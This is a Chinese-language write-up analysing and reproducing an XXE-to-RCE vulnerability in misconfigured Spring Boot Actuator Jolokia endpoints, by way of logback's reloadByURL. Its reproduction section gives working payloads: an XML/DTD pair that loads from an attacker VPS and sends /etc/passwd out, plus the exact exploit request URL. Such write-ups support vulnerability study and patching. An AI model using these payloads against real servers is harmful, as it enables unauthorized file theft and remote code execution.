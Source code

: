 Spring Boot Actuator jolokia 配置不当导致的XXE漏洞
==================================================

一、漏洞简介
------------

Spring boot 会把 **/!** 解析成
*/*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。***前提条件*****查看jolokia/list中存在的 Mbeans，是否存在logback
库提供的reloadByURL方法**

    https://www.0-sec.org:9090/jolokia/list

![4140320665.png](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId22.png)

二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**-\>**Jolokia**-\>**Logback**-\>**JNDI**-\>**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId27.png)

只要是 **/jolokia** 为第一个 **path**
节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler\#handleGetRequest**
里

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId28.png)

在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2**
这样能够保留 **/** 符号，后边用得到可以根据 **path** 节点新建 **JmxRequest** 对象大致如下图所示，有这么些类别可以指定

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId29.png)

我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest
类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest
的构造函数，如下所示

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId30.png)

跟进 initObjectName 函数，如下

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId31.png)

如上图，这里将 exec 后面的第一个 path 节点带进了
javax.management.ObjectName 构造函数中

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId32.png)

根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个
ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation
属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入
org.jolokia.http.HttpRequestHandler\#executeRequest
执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个
org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId33.png)

如上图，就是将 JmxExecRequst 中的 operation
做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments
转换成对应类型，最后执行 server.invoke
的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过
`/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator
就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId34.png)

首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个
reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId35.png)

如上图，它的参数是一个 URL 类型的，我们传入进去只能是
String，但是不用方，ExecHandler 的 doHandRequest
当中会对目标函数的参数类型做适配，将 String 转换成 URL 。但是这里有个问题，因为需要指定 schema ，所以必须有类似 http://
这样的开头，而我们的 path 进去以后，会用 /
切割分组的，所以就需要用到前面的流程中对 uri
的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId36.png)

从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的跟进函数如下：

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId37.png)

继续跟进上图中的红色方框如下

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId38.png)

如上图所示，在调用 recordEvents
的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml
文件， xml 解析的过程就是发生在 recordEvents
的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下
recordEvents 执行过程，如下

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId39.png)

很简单，build 完成后直接 parse，那我们查看一下 build
的时候是否有做防护，如下

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId40.png)

什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢不方，我们查一查 logback insertFormJNDI 标签啥

![](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId41.png)

其中的 env-entry-name 就是指向 jndi
的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi
触发 java 反序列化，最终导致 RCE

### 漏洞复现

-   在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

```{=html}
<!-- -->
```
    <?xml version="1.0" encoding="utf-8" ?>
    <!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
    <a>&trick;</a>

-   在VPS上创建ian.dtd

```{=html}
<!-- -->
```
    <!ENTITY % d SYSTEM "file:///etc/passwd">
    <!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">

![2.png](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId43.png)

-   开启http服务

```{=html}
<!-- -->
```
    python -m SimpleHTTPServer 80

-   远程访问logback.xml文件

```{=html}
<!-- -->
```
    https://www.0-sec.org:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml

![1.png](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId44.png)

-   可以看到服务器上也返回了响应日志    ![3.png](resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId45.png){width="5.833333333333333in"
    height="0.3951881014873141in"}

参考链接
--------

> https://xz.aliyun.com/t/4258
>
> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
